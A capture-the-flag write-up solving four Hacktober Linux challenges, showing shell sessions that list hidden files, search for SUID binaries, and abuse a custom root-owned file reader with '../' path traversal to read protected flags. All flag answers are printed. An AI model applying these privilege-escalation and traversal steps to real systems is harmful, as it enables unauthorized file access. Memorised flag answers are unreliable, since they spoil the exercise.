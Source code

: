 #### Talking to the Dead 1
DESCRIPTION
```
Talking to the Dead 1

Author: syyntax

We've obtained access to a server maintained by spookyboi. There are four flag files that we need you to read and submit (flag1.txt, flag2.txt, etc). Submit the contents of flag1.txt.

ssh hacktober@env.hacktober.io

Password: hacktober-Underdog-Truth-Glimpse

```

1. Connect to the server through SSH.
  ```   
  Last login: Mon Oct 19 04:27:08 2020 from 106.197.11.146
  luciafer@3191a213533a:/$ whoami
  luciafer
  ```
    -> We are logged in as luciafer
  
2. We need to find flag1.txt for chall 1 of Linux.
    
    -> The flag is in /home/luciafer/Documents/flag1.txt
    
  ```
  luciafer@3191a213533a:/home$ ls
  luciafer  spookyboi
  luciafer@3191a213533a:/home$ cd luciafer/
  luciafer@3191a213533a:~$ ls
  Documents  Downloads  Pictures Videos
  luciafer@3191a213533a:~$ cd Documents/
  luciafer@3191a213533a:~/Documents$ ls 
  flag1.txt
  luciafer@3191a213533a:~/Documents$ cat flag1.txt
  flag{cb07e9d6086d50ee11c0d968f1e5c4bf1c89418c}
  ```
FLAG 1: flag{cb07e9d6086d50ee11c0d968f1e5c4bf1c89418c}
-----------------------------------------------------


#### Talking to the Dead 2
DESCRIPTION
```
Talking to the Dead 2
Author: syyntax

There's a hidden flag that belongs to luciafer. Submit the contents of the hidden flag2.txt.

ssh hacktober@env.hacktober.io
Password: hacktober-Underdog-Truth-Glimpse
```
1. Connect to the SSH which is same for all the linux challenges.
2. The Description says the file belongs to "luciafer". 
3. So looking in "/home/luciafer/Documents" 
  ```
  luciafer@3191a213533a:~/Documents$ ls -al
  total 20
  drwxrwxr-x 1 luciafer luciafer 4096 Oct  6 36
  drwxr-xr-x 1 luciafer luciafer 4096 Oct  5 14:54 ..
  -rw-rw-r-- 1 luciafer luciafer   47 Oct  6 08:36 .flag2.txt
  -rw-rw-r-- 1 luciafer luciafer   47 Oct  5 14:55 flag1.txt

  luciafer@3191a213533a:~/Documents$ cat .flag2.txt
  flag{728ec98bfaa302b2dfc2f716d3de7869f3eadcbf}
  ```
  
  The flag2.txt was a hidden file so using "ls -al" to list all files hidden and otherwise.
  Reading the contents of ".flag2.txt"
  
 FLAG 2 : flag{728ec98bfaa302b2dfc2f716d3de7869f3eadcbf}
  -----------------------------------------------
 

#### Talking to the Dead 4
DESCRIPTION
```
Talking to the Dead 4
Author: syyntax

We suspect spookyboi doesn't use the root account for this server. There must be some mechanism used to read the flag4.txt file without gaining root. Submit the contents of flag4.txt from the remote machine.

ssh hacktober@env.hacktober.io
Password: hacktober-Underdog-Truth-Glimpse
```
1. Connect with the SSH port.
2. Go to root directory.
  ```
luciafer@88a08162709b:/$ cd /root
luciafer@88a08162709b:/root$ ls
core  flag4.txt
luciafer@88a08162709b:/root$ ls -al
total 272
drwxr-xr-x 1 root root   4096 Oct  6 10:50 .
drwxr-xr-x 1 root root   4096 Oct 19 00:23 ..
-rw------- 1 root root   4408 Oct  6 14:04  bash_history
-rw-r--r-- 1 root root   3106 Dec  5  2019 .bashrc
drwxr-xr-x 3 root root   4096 Oct  6 08:43 .local
-rw-r--r-- 1 root root    161 Dec  5  2019 .profile
-rw------- 1 root root      0 Oct  6 08:42 .python_history
-rw------- 1 root root 245760 Oct  6 09:58 core
-rw------- 1 root root     47 Oct  6 08:41 flag4.txt
```
3. Only root user has the permission to read and write the contentsof flag4.txt
  -> Looking aruond the system I tried finding for a file with SUID permissions as root that can help us.
  ```
luciafer@3191a213533a:~/Documents$ find / -perm -u=s -type f 2> /dev/null
/usr/bin/umount
/usr/bin/passwd
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
/usr/local/bin/ouija
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
  ```

4. There is a file that stands out becase its not a common file found in a linux system. So I tried running this

```
luciafer@3191a213533a:~/Documents$ /usr/local/bin/ouija
OUIJA 6.66 - Read files in the /root directory
Usage: ouija [FILENAME]
EXAMPLES:	ouija file.txt
			ouija read.me
```
  ->This file cat's the contents of files in /root directory. ie  *cat /root/<filename>
  
```
luciafer@3191a213533a:~/Documents$ /usr/local/bin/ouija flag4.txt                                                                                                       flag{4781cbffd13df6622565d45e790b4aac2a4054dc}
```

FLAG 4 : flag{4781cbffd13df6622565d45e790b4aac2a4054dc}
---------------------------------------------------------

 
#### Talking to the Dead 3
DESCRIPTION
```
Talking to the Dead 3

Submit the contents of flag3.txt from the remote machine.

ssh hacktober@env.hacktober.io
Password: hacktober-Underdog-Truth-Glimpse

```

##### *I don't think this was the intended solution to solve this flag but I did solved it. So if you know how it was intended let'me know in my Discord @mrWh1te#3911

1. Connect through SSH to the server.

2. The challenge was to read the flag3.txt residing in the spookyboi's Documents, and is a allowed to be read by spookyboi and its group users.
   
   -> I couldn't figure out how to horizontally escalate the privilege to another user.

3. But , I know there is a file that reads the content of files with root privileges from the root directory.
   So I used */usr/local/ouija* to read the contents of *flag3.txt*

```
luciafer@8925bd5b7eeb:/home/spookyboi/Documents$ /usr/local/bin/ouija ../home/spookyboi/Documents/flag3.txt
flag{445b987b5b80e445c3147314dbfa71acd79c2b67} 
```
I used the full path because the command is run as:
cat /root/../<path> 

".." is used to specify the previous directory and thus allowing me to read the contnts of */home/spookyboi/Documents/flag3.txt*.

FLAG 3 : flag{445b987b5b80e445c3147314dbfa71acd79c2b67} 
-----------------------------------------------

